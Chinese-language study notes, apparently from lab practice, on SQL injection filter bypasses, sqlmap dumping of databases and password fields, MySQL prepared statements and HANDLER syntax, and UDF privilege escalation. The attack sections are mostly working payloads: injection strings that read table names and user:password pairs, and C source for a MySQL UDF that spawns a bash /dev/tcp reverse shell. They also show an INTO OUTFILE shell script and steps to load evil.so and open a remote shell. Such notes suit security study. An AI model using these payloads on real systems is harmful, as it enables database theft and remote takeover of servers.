

发现空格被过滤




例子：less-26



逐个测试发现%A0可以使用

```
?id=1'union%A0select%A01,database(),3%A0oorr'1'='1
注意：这里or也被过滤了所以要使用复写,且注释符被过滤
```

如果还是不行尝试报错注入

```
?id=1'||extractvalue(1,concat('~',(database())))||'1'='1
没有用到空格

admin"||(extractvalue(1,concat(0x7e,(select(database())),0x7e)));#

查表名
select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())
注意：这里or被过滤所以复写

查列名
select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema=database())anandd(table_name='users')

查内容
select(concat(username,':',passwoorrd))from(users)where(id=1)

多用括号()以达到不适用空格的效果and和or复写
```

limit替换函数



#### 逗号过滤绕过

join绕过逗号限制的原理

```
使用join:
union select 1,2,3 #等价于
union select * from (select 1)a join (select 2)b join (select 3)c;

例如：
查表名
?id=-1 union select * from (select 1)a join (select 2)b join (select group_concat(table_name) from information_schema.tables where table_schema=database())c;

查内容时
?id=-1 union select * from (select 1)a join (select 2)b join (select group_concat(username) from users)c;
?id=-1 union select * from (select 1)a join (select 2)b join (select group_concat(password) from users)c;

由于逗号被过滤所以只能一个个查
```

适用场景：

报错后发现逗号被过滤

#### 绕过union和select过滤



还可以使用报错注入

```
?id=1'||updatexml(1,concat('$',(database())),0)or'1'='1
```

还可以尝试url编码绕过



## sqlmap工具的使用

#### ①检查注入点：

sqlmap -u [http://aa.com/star_photo.php?artist_id](https://link.jianshu.com/?t=http://aa.com/star_photo.php?artist_id)＝11

#### ②爆所有数据库信息：

sqlmap -u [http://aa.com/star_photo.php?artist_id](https://link.jianshu.com/?t=http://aa.com/star_photo.php?artist_id)＝11 –dbs

#### ③爆当前数据库信息：

sqlmap -u [http://aa.com/star_photo.php?artist_id](https://link.jianshu.com/?t=http://aa.com/star_photo.php?artist_id)＝11 –current-db

#### ④指定库名列出所有表

sqlmap -u [http://aa.com/star_photo.php?artist_id](https://link.jianshu.com/?t=http://aa.com/star_photo.php?artist_id)＝11 -D vhost48330 –tables

‘vhost48330’ 为指定数据库名称

#### ⑤指定库名表名列出所有字段

sqlmap -u [http://aa.com/star_photo.php?artist_id](https://link.jianshu.com/?t=http://aa.com/star_photo.php?artist_id)＝11 -D vhost48330 -T admin –columns
 ‘admin’ 为指定表名称

#### ⑥指定库名表名字段dump出指定字段

sqlmap -u [http://aa.com/star_photo.php?artist_id](https://link.jianshu.com/?t=http://aa.com/star_photo.php?artist_id)＝11 -D vhost48330 -T admin -C ac，id，password –dump
 ‘ac,id,password’ 为指定字段名称

---

## sql预处理

### MySQL传统处理：

```
客户端准备sql语句

发送sql语句到MySQL服务器

MySQL服务器执行sql语句

服务器执行结果返回客户端
复制代码1234567
```

### 预处理基本策略：

```
将sql语句强制一分为二：
第一部分为前面相同命令和结构部分
第二部分为后面可变数据部分
首先将前面的sql语句发送给MySQL服务器，让其先执行溢出预处理（并没有真正的执行）第一次发送sql语句的时候将其中可变的数据部
复制代码1234
```

### 不带参数的预处理

**准备预处理语句**

prepare 语句名称 from “预处理的sql语句”;

```
prepare st from "select * from pdo";
```

**执行预处理语句**

```
execute st;
```

**删除预处理语句**

```
drop prepare st;
```

### 带参数的预处理

**准备预处理语句**

```
prepare st from "select * from pdo where id = ?";
```

**定义参数变量**

```
set @id=2;
```

**传参，执行预处理**

```
execute st using @id; 
```

**删除**

```
drop prepare st;
```

## handler命令与实现方法

[HANDLER语法_MySQL 中文文档 (mysqlzh.com)](https://www.mysqlzh.com/doc/126/253.html#:~:text=HANDLER 语句提供通往表存储引擎接口的直接通道。 HANDLER 可以用于 MyISAM 和 InnoDB,表。 HANDLER...OPEN 语句用于打开一个表，通过后续的 HANDLER...READ 语句建立读取表的通道。 本表目标不会被其它线程共享，也不会关闭，直到线程调用 HANDLER...CLOSE 或线程中止时为止。)

**说明**：在SQL中，HANDLER 是用于直接访问表的一种方式。HANDLER 语句用于打开表，并为后续操作提供对表的直接访问。

(1)handler table_name open as hd; 指定数据表进行载入并返回句柄

(2)handler hd read first; 读取指定表/句柄的首航数据

(3)handler hd read next; 读取指定表/句柄的下一行数据

(4)handler hd close; 关闭句柄

```sql
HANDLER tbl_name OPEN [ [AS] alias]
HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,…) [ WHERE where_condition ] [LIMIT … ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST } [ WHERE where_condition ] [LIMIT … ]
HANDLER tbl_name READ { FIRST | NEXT } [ WHERE where_condition ] [LIMIT … ]      //主健,无索引指定
HANDLER tbl_name CLOSE
```

## 无列名注入和innoDb引擎

[SQL注入之 无列名注入 原理详解](https://blog.csdn.net/qq_66013948/article/details/136424994)

**union无列名注入**

**join无列名注入**	

---

## UDF攻击（提权）

如果要提权要先看看

1、查看MySQL进程信息，是root权限运行

```
ps aux | grep mysql
```

2、查看在wordpress目录下的wp-config.php文件看mysql的账号及密码/3

3、查看mysql是否有版本及是否有写入权限及插件目录

```
mysql -uroot -pR@v3nSecurity 登录mysql
select version();
show global variables like 'secure%'; #首先看一下是否满足写入条件
show variables like 'plugin%';或select @@plugin_dir; #查看插件目
```


### **1. 用户定义函数 (UDF)**

这是最接近SQLite扩展的功能：

```
// mysql_udf.c - MySQL UDF示例
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <mysql.h>

my_bool reverse_shell_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
    // 初始化检查
    if (args->arg_count != 2) {
        strcpy(message, "需要两个参数: IP和端口");
        return 1;
    }
    return 0;
}

char *reverse_shell(UDF_INIT *initid, UDF_ARGS *args, char *result,
                   unsigned long *length, char *is_null, char *error) {
    
    char *ip = args->args[0];
    int port = *((long long*)args->args[1]);
    
    // 这里可以添加反弹shell代码
    char cmd[256];
    snprintf(cmd, sizeof(cmd), "bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'", ip, port);
    system(cmd);
    
    *length = strlen("Executed");
    return "Executed";
}

// 编译：
// gcc -shared -fPIC -I/usr/include/mysql mysql_udf.c -o mysql_udf.so
```

**加载UDF：**

```
-- 在MySQL中
CREATE FUNCTION reverse_shell RETURNS STRING SONAME 'mysql_udf.so';
-- 调用
SELECT reverse_shell('127.0.0.1', 4444);
```

### **2. 通过写文件+执行**

```
-- 1. 写恶意文件到可执行位置
SELECT '#!/bin/bash\nbash -i >& /dev/tcp/127.0.0.1/4444 0>&1' 
INTO OUTFILE '/tmp/shell.sh';

-- 2. 设置权限（需要FILE权限）
-- 3. 通过系统调用执行（需要特定条件）
```

### **3. 利用MySQL提权插件**

```
-- 检查可用插件
SHOW PLUGINS;

-- 某些版本的MySQL有漏洞插件
INSTALL PLUGIN rpl_semi_sync_master SONAME 'semisync_master.so';
```

### **MySQL安全限制**

### **需要的高权限：**

1. **FILE权限**：写文件到服务器
2. **INSERT权限**：写二进制数据
3. **SUPER权限**：执行系统命令
4. **mysql.user表写权限**：安装UDF

### **UDF利用条件：**

```
# UDF文件需要放在插件目录
SHOW VARIABLES LIKE 'plugin_dir';
# 示例：/usr/lib/mysql/plugin/

# 需要将so文件写入该目录
```

---

### **步骤1：上传恶意so到插件目录**

```
-- 如果有FILE权限，可以通过SQL写文件
SELECT unhex('7F454C46...') INTO DUMPFILE '/usr/lib/mysql/plugin/evil.so';
-- 注：需要知道插件目录路径和文件权限
```

### **步骤2：创建UDF函数**

```
CREATE FUNCTION do_system RETURNS INTEGER SONAME 'evil.so';
```

### **步骤3：执行命令**

```
SELECT do_system('bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"');
```


